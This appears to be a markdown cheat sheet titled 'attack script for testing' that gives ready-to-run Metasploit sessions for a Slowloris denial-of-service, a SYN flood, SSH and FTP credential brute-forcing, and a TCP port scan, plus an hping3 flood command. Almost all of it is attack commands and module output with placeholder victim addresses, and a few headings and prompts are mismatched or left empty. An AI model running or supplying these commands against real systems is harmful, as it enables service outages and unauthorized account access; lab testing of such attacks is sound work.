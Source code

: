 ### ATTACK SCRIPT FOR TESTING

## DDoS & DoS Attacks and Bot Attacks

# 1. Slowloris

Using Metasploit

```shell
msfconsole
msf6 > use auxiliary/dos/http/slowloris
msf6 auxiliary(dos/http/slowloris) > show options

Module options (auxiliary/dos/http/slowloris):

Name             Current Setting  Required  Description
----             ---------------  --------  -----------
delay            15               yes       The delay between sending ke
                                            ep-alive headers
rand_user_agent  true             yes       Randomizes user-agent with e
                                            ach request
rhost                             yes       The target address
rport            80               yes       The target port
sockets          150              yes       The number of sockets to use
                                                in the attack
ssl              false            yes       Negotiate SSL/TLS for outgoi
                                            ng connections


View the full module info with the info, or info -d command.

msf6 auxiliary(dos/http/slowloris) > set rhost <VICTIM IP>
rhost => <VICTIM IP>
msf6 auxiliary(dos/tcp/synflood) > set rport <SERVER RUNNING PORT>
rport => <SERVER RUNNING PORT>
msf6 auxiliary(dos/http/slowloris) > run
```

Using hping ( custom packet/attack gegenrator)

- `sudo hping3 -S -p 80 -i u100000 <TARGET-IP>`

# 2. Syn Flood
```shell
msfconsole
msf6 auxiliary(dos/http/slowloris) > use auxiliary/dos/tcp/synflood
msf6 auxiliary(dos/tcp/synflood) > show options

Module options (auxiliary/dos/tcp/synflood):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
INTERFACE                   no        The name of the interface
NUM                         no        Number of SYNs to send (else unlim
                                        ited)
RHOSTS                      yes       The target host(s), see https://do
                                        cs.metasploit.com/docs/using-metas
                                        ploit/basics/using-metasploit.html
RPORT      80               yes       The target port
SHOST                       no        The spoofable source address (else
                                        randomizes)
SNAPLEN    65535            yes       The number of bytes to capture
SPORT                       no        The source port (else randomizes)
TIMEOUT    500              yes       The number of seconds to wait for
                                                new data


View the full module info with the info, or info -d command.

msf6 auxiliary(dos/tcp/synflood) > set RHOSTS <VICTIM IP>
RHOSTS => <VICTIM IP>
msf6 auxiliary(dos/tcp/synflood) > run

```
# 3. 

## SSH Patator

# SSH BRUTE FORCE
## SSH Brute Force (Metasploit)

**Setup:**
1. In your Kali Linux (Attacker), create two files for brute-force credentials: one for usernames and one for passwords.
2. Open a root terminal.
3. Run the following commands using Metasploit:

```shell
msfconsole
use auxiliary/scanner/ssh/ssh_login
set USER_FILE /home/jonel/Desktop/bruteforcefiles/usernames.txt
set USERPASS_FILE /home/jonel/Desktop/bruteforcefiles/passwords.txt
set RHOSTS 192.168.1.2
run
```

---

## FTP Brute Force (Metasploit)

**Setup:**
1. In your Kali Linux (Attacker), create two files for brute-force credentials: one for usernames and one for passwords.
2. Open a root terminal.
3. Run the following commands using Metasploit:

```shell
msfconsole
use auxiliary/scanner/ftp/ftp_login
set USER_FILE /home/jonel/Desktop/bruteforcefiles/usernames.txt
set USERPASS_FILE /home/jonel/Desktop/bruteforcefiles/passwords.txt
set RHOSTS 192.168.1.2
run
```

## Port Scanning 

# TCP / SYN Port Scan

    Using Metasploit

```shell
    msfconsole
    msf6> use auxiliary/scanner/portscan/tcp
    msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS <VICTIM-IP>
    msf6 auxiliary(scanner/portscan/tcp) > run
``` 

